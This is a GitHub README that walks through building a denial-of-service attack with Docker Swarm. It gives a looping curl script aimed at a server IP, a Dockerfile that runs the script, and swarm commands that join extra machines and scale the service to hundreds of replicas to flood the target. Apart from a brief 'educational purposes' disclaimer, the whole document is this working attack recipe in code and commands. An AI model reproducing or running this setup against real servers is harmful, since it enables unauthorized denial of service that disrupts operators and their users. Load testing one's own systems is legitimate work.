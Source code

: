 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Setting up Docker Swarm
- [ ] Creating and Scaling a Service
- [ ] Aditional Notes and Tips

>I'd recommend that before you get started with the invidiual steps, you first skim the entire guide.

### Installing Docker
If you have this part already simply move on to the next section, otherwise here is a link that to get you started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
Following is done through iTerm or a Terminal
I personally use vim for this, but any way would really do.
```
$ vim curlAttack.sh
```
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
#!/bin/bash
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then to copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to a different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
These three lines are basically pulling from a docker image that has ability to use curl, adding our script to the image that comes from this Dockefile, then automatically running the script when a cointainer is made.

- [x] Setting up Dockerfile

### Creating a Custom Docker Image Through Dockerfile

Now that dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
You'll then see that its pulling from tutum/curl first.

Check if it was succesfull by running
 ```
 $ docker images
 ```
You should then see both tutum/curl and your own image.
 
 - [x] Creating a Custom Docker Image
 
### Setting up Docker Swarm
 
We can start up with docker swarm with the following command.
```
$ docker swarm init
```
If at this point you believe your computer has enough recources to make how many copied you like skip to the next step.
Docker Swarm is also build in a way to distribute the workload between worker nodes. The docker swarm init command gives a join token which could be used on another device that has docker in order to have it join as a worker and share the workload.

```
$ docker swarm join --token <Token From Init Command>
```

Note that the service creating and scaling commands(below) need to be run on hte manager node. (The device where the swarm was initalized).

- [x] Setting up Docker Swarm
 
### Creating and Scaling a Service

So to start of here are useful commands to know, all of these start with: **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale number of copies of the service.  |
| rm \<serviceName> | Ends service with the given name.  |
| ls | Lets you see running services and number of copies that are currently up. |

Here's an example that sets up the image, creates a service, scales it then ends it.
```
$ docker build -t <imageName>:dockerfile .  //[Only do this if you made changes to the Dockerfile]
$ docker service create --name <serviceName> --detach=false <imageName>:dockerfile
$ docker service ls   //[Can see 1/1 copy running]
$ docker service scale <serviceName>=100
$ docker service ls   //[Doing this multiple times you can see the # of copies increasing]
$ docker service rm <serviceName>
```

Also you if you'll be repeating these often, I'd reccomend adding these as aliases for these.

- [x] Creating and Scaling a Service

### Aditional Notes and Tips
#### The following are in no preticular order

* If you chose to copy paste command from here, double check not to have missing pieces.
* I reccomend keeping both your <imageName> and <serviceName> to lower cases only, sometimes upper case letters and spaces cause issues.
* A creating a service doesnt work out, Cntrl-C doesnt actually stop it. Instead the service in the background keeps trying to make containers. 
  - So if you realized you had a mistake in your image and would like to delete and rebuild it, it wont let you as the service constantly tryies to make continers with that image.
  - To fix most of your problems
    - First use "docker service rm" to delete the service then wait a few seconds for last containers to be stopped.
    - Then delete the image with "docker rmi". Fix whatever mistake you had and rebuild the image & the service.
* If you're new to docker I'd reccommend reading their API, it's very clear and well written.


- [x] Aditional Notes and Tips

### This is the end of tutorial, hope you found it useful.

